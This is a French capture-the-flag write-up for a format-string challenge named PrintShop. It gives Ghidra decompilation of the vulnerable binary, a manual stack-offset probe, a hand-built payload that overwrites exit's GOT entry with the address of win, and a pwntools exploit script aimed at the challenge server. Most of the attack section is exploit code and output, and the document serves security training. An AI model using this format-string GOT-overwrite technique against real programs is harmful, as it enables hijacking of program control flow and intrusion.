

# PrintShop

## Ghidra

`main`

```c
void main(void)

{
  long in_FS_OFFSET;
  char local_78 [104];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  puts("\nWelcome to the Print Shop!");
  printf("\nWhat would you like to print? >> ");
  fgets(local_78,100,stdin);
  puts("\nThank you for your buisness!\n");
  printf(local_78);
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

`win`

```c
void win(void)

{
  int iVar1;
  FILE *__stream;
  char local_11;
  
  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    puts("Flag is missing, contact an organizer.");
    fflush(stdout);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  iVar1 = fgetc(__stream);
  local_11 = (char)iVar1;
  while (local_11 != -1) {
    putchar((int)local_11);
    fflush(stdout);
    iVar1 = fgetc(__stream);
    local_11 = (char)iVar1;
  }
  fclose(__stream);
  return;
}
```

- le printf **n'est pas formaté**
- main est une procédure terminant sur **exit**
- nous devons appeler **win** 

But: hijack le pointeur sur exit vers l'addresse de win via une format string

## A la main

```
┌─[night@night-20b7s2ex01]─[~/patriot]
└──╼ 8 fichiers, 40Kb)─$ python -c 'print("AAAA"+"%x."*5)' | ./printshop 

Welcome to the Print Shop!

What would you like to print? >> 
Thank you for your buisness!

AAAAed63f643.0.ed504664.1.0.
┌─[night@night-20b7s2ex01]─[~/patriot]
└──╼ 8 fichiers, 40Kb)─$ python -c 'print("AAAA"+"%x."*6)' | ./printshop 

Welcome to the Print Shop!

What would you like to print? >> 
Thank you for your buisness!

AAAA39c3f643.0.39b04664.1.0.41414141.
```
-> on observe ```AAAA=0x41414141``` à  **n=6**

on adapte https://discord.com/channels/938507425819004929/1150099609511792680/1150436328174010560
```
0xdeadbeef = 0xdead (high) "+" 0xbeef (low)

[endian(adresse écriture low) + endian(addresse écriture high = low +2)] %[hexa low à écrire - 8]x%[n contrôlé]$hn%[hexa abs((low-8)-(high-8)) à écrire]x%[n+1] $hn"')
```
(perso je fais **rax2** pour la conversion hexa/int pour low et high-> radare2)

avec **win = à écrire**```000000000040129d <win>:``` 
à la place de **exit = addresse écriture**```00404060 <exit>:``` -> le 0xdeadbeef ici
ce qui donne qqch comme:

```
"\60\x40\x40\x00 \60\x40\x42\x00 %56x %6$hn % 4701x%7$hn"
```
avec : `0x0040` (high win) `0x129d`(low win)
- `rax2 0x0040  -8 = 56`
- `rax2  0x129d   -8-56(addresse en high ) = 4701`

## Avec fmtstr de pwntools

```python
from pwn import *

elf = ELF('./printshop')
context.arch = 'amd64'

p = process(elf.path)
p = remote('chal.pctf.competitivecyber.club',7997 )

p.recvuntil(b' >>')

payload = fmtstr_payload(6, {elf.got.exit: elf.sym.win}, numbwritten=0); print(payload)


p.sendline(payload)

p.interactive()
```


